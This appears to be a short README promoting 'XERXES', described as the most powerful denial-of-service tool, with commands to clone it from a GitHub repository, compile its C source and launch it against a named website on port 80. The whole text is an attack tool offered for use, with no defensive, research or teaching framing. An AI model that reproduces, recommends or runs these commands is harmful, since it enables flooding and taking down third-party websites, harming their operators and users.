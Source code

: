 # Toxicpacket
XERXES the most powerful DoS tool
git clone https://github.com/NasurHaxor/xerxes/
cd xerxes
gcc xerxes.c -o xerxes
USAGE : ./xerxes www.techchip.net 80
